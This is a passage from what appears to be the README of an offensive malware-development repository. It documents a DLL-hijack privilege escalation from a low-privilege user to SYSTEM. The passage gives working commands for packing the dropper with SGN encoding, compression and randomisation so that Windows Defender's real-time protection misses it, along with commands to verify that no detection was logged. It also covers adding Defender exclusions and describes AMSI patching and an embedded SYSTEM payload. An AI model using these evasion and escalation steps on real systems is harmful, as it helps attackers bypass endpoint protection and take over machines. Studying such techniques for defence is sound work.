-randomize       Phase-2 randomisation suite (timestamps, section names, …)  [default true]
-rounds int      stage-1 SGN encoding rounds                                 [default 3]
```

---

## 8 bis. Defender bypass via dropper packing

Stock `privesc-e2e.exe` is an unpacked 12 MiB Go binary —
Defender's signature scanner picks the static-import patterns out
of the IAT (`evasion.amsi.*`, scheduled-task APIs, packer.*) and
the binary gets quarantined on disk before its first instruction
runs.

The repo ships `cmd/packer` precisely for this: SGN-encode the
`.text` section so the on-disk signature differs from any known
hash AND the IAT-discoverable strings live encrypted at rest, then
emit a tiny stub that decrypts back in-process at startup before
jumping to the original Go entry point. The on-disk bytes are
unrecognisable to any static signature, the runtime behaviour is
preserved.

### What works on the 12 MiB Go dropper

Verified end-to-end with Defender real-time protection ON, no
exclusions, lowuser → SYSTEM chain reaching STRONG verdict:

```bash
# Build the orchestrator first per §2.0, then pack it.
# Mode-3 full pipeline (Compress + Randomize + 5 SGN rounds) — the
# strongest signature-on-disk break short of antidebug.
go run ./cmd/packer pack \
    -in privesc-e2e.exe \
    -out privesc-e2e-packed.exe \
    -format windows-exe \
    -rounds 5 \
    -compress \
    -randomize
```

Deploy `privesc-e2e-packed.exe` AS `privesc-e2e.exe` on the
target — the orchestrator side of §2.3 stays unchanged.

### Caveat — `-antidebug` and hypervisors

| Flag | When NOT to use it |
|---|---|
| `-antidebug` | Bare-metal only. On any hypervised host (KVM / Hyper-V / VMware) the RDTSC ↔ CPUID delta in the slice-5.6 stub trips on VMEXIT — silent no-op LoadLibrary at runtime. See §9. |

The other two flags (`-compress`, `-randomize`) used to crash
large Go binaries before the `InjectStubPE` MEM_WRITE fix for the
stub-section BSS scratch region. Now verified working on the
12 MiB orchestrator, the 1.6 MiB `winhello.exe` test fixture, and
every smaller binary in the test suite.

### Verification on the target

```cmd
:: Hash of the deployed binary — should NOT match the unpacked
:: hash you have on the operator host.
certutil -hashfile C:\Users\Public\maldev\privesc-e2e.exe SHA256

:: Defender saw the file but did not flag it.
powershell -Command "Get-WinEvent -LogName 'Microsoft-Windows-Windows Defender/Operational' -MaxEvents 10 -EA SilentlyContinue | Where-Object { $_.Message -match 'privesc-e2e' } | Format-List TimeCreated,Id,Message"
:: → empty (no detection event) is the success signal

:: The packed binary launches AS lowuser and produces marker.
:: (Skip on-disk hash check by Defender via Get-MpThreatDetection.)
powershell -Command "Get-MpThreatDetection -EA SilentlyContinue | Where-Object { $_.Resources -match 'privesc-e2e' }"
:: → empty
```

---

## 9. Troubleshooting

Read symptom column first; if your row matches, the right column
is the proven fix.

| Symptom | Cause | Fix |
|---|---|---|
| `Erreur : Le nom d'utilisateur ou le mot de passe est incorrect` (schtasks /RP) | password contains shell-special chars (`!`, `%`, `"`, `^`) | use only `[A-Za-z0-9]` for the lowuser password |
| `Impossible de terminer l'opération, car le fichier contient un virus` when running the orchestrator | Defender flagged `privesc-e2e.exe` on disk before exec | preferred: pack the dropper per [§8 bis](#8-bis-defender-bypass-via-dropper-packing); workaround: add a Defender exclusion for `C:\Users\Public\maldev\` and `C:\Vulnerable\` (see the Defender note after §2.3) |
| `Le mappage entre les noms de compte et les ID de sécurité n'a pas été effectué` (icacls) | non-English Windows rejects English principal names | use SIDs: `*S-1-1-0` not `Everyone`, `*S-1-5-32-545` not `Users` — §2.2/§2.3 already do this |
| `runas /user:lowuser …` says wrong password | `Set-LocalUser` SAM password representation differs from what `runas`/schtasks expect on some Win10 builds | re-run `net user lowuser MaldevLow42x` from elevated PowerShell — §2.2 does both `Set-LocalUser` AND `net user` for this reason |
| orchestrator exits 1 immediately with no output, no breadcrumbs | binary too fresh — Defender SmartScreen blocked first execution | add the exclusion above, or run `Unblock-File C:\Users\Public\maldev\privesc-e2e.exe` first |
| `LoadLibrary succeeded` in victim.log but `whoami.txt` never appears | RDTSC ↔ CPUID delta in the AntiDebug stub trips on a hypervised CPU (KVM/Hyper-V/VMware VMEXIT) | re-run with `-antidebug=false` |
| `whoami.txt` exists but verdict is PARTIAL on non-English Windows | French/Spanish/Italian/Portuguese SYSTEM name reported in Windows-1252 (`Système` byte `0xE8`) | already fixed in commit `11d37d8` — orchestrator strips non-ASCII + matches per-locale skeleton |
| `lowuser` token visible in §2.5 (`whoami /groups`) shows `BUILTIN\Administrators` | the lowuser account was promoted (e.g. you added it to Administrators while testing) | `Remove-LocalGroupMember -SID S-1-5-32-544 -Member lowuser`, then `Logout` and back in as lowuser |
| `schtasks /Run` succeeds as lowuser but task does not fire | task RunLevel is LIMITED instead of HIGHEST | recreate the task with `/RL HIGHEST` per §2.3 |
| marker dir exists but probe can't write to it | `C:\ProgramData\maldev-marker\` ACL doesn't grant Everyone Modify | `icacls C:\ProgramData\maldev-marker /grant '*S-1-1-0:(M)'` |

For deeper diagnosis after a failed run, leave everything in
place and inspect from an elevated shell:

```powershell
# Where did the chain stop?
dir C:\ProgramData\maldev-marker\           # which breadcrumbs exist?
type C:\ProgramData\maldev-marker\victim.log

# Did the task even fire?
Get-WinEvent -LogName 'Microsoft-Windows-TaskScheduler/Operational' -MaxEvents 20 |
  Where-Object { $_.Message -match 'MaldevHijackVictim' } | Format-List

# Did Defender intervene?
Get-WinEvent -LogName 'Microsoft-Windows-Windows Defender/Operational' -MaxEvents 5 | Format-List

# Did the lowuser shell actually authenticate (4625 = failed logon)?
Get-WinEvent -LogName Security -FilterXPath "*[System[EventID=4624 or EventID=4625]]" -MaxEvents 10 |
  Where-Object { $_.Message -match 'lowuser' } | Format-List TimeCreated,Id,Message
```

---

## 10. Repository layout

| Path | Role |
|---|---|
| `main.go` | Orchestrator (runs as `lowuser`) — the live actor in the demo |
| `amsi_windows.go` | `patchAMSI()` — runs `evasion.preset.Aggressive` via `ApplyAllAggregated` |
| `probe/main.go` | Full Go probe — the payload that runs as SYSTEM. Uses `os.WriteFile` + `exec.Command("whoami.exe")`, writes the marker file the orchestrator polls. Embedded into orchestrator via `//go:embed probe/probe.exe`. Survives the Mode-8 thread-spawn because `victim.c` keeps the host process Go-runtime-free. |
| `victim/victim.c` | DELIBERATELY VULNERABLE — `LoadLibrary("hijackme.dll")` then sleeps 5 s. Built in C nostdlib mingw on purpose: a Go victim would collide with the Go probe's runtime init when the spawned thread fires. Deployed at `C:\Vulnerable\victim.exe`, run as SYSTEM by the scheduled task. |
| `fakelib/fakelib.go` | Real Go-built `c-shared` DLL with three named exports. Embedded via `//go:embed fakelib/fakelib.dll` for the Mode-10 path. |
| `../../.dev/refactor-2026/privesc-e2e-lessons-2026-05-12.md` | session-by-session debugging log if you want the archaeology |

The build artefacts `probe/probe.exe` and `fakelib/fakelib.dll`
are gitignored — rebuild from source on every run per
[§2.0](#20-build-the-binaries-operator-host-before-you-arrive).

---

## 11. The helpers this command demonstrates

`examples/privesc-dll-hijack` is also the canonical end-to-end consumer for
four reusable maldev APIs. Each is documented standalone; this
command shows them composed against a real Windows target.

| Helper | Used here for | Doc |
|---|---|---|
| [`packer.PackProxyDLLFromTarget`](../../docs/techniques/pe/packer.md#packproxydllfromtarget) | Mode-10 one-shot: read a real DLL, mirror its exports, pack the payload | `pe/packer/proxy_fused.go` |
| [`dllproxy.ExportsFromBytes`](../../docs/techniques/pe/dll-proxy.md#exportsfrombytes--one-shot-named-export-extraction) | (transitive, inside `PackProxyDLLFromTarget`) | `pe/dllproxy/dllproxy.go` |
| [`dllhijack.PickBestWritable`](../../docs/techniques/recon/dll-hijack.md#pickbestwritable) | `-discover` path: pick the highest-ranked writable hijack target in one call | `recon/dllhijack/dllhijack.go` |
| [`evasion.ApplyAllAggregated`](../../docs/techniques/evasion/preset.md#applyallaggregated) | `amsi_windows.go::patchAMSI` — one-liner aggregating `preset.Aggressive` failures into a single sorted-by-name error | `evasion/evasion.go` |

If you're trying to learn the maldev API, **read the standalone
docs first**, then come here to see them composed against a real
target. That's the intended teaching path.
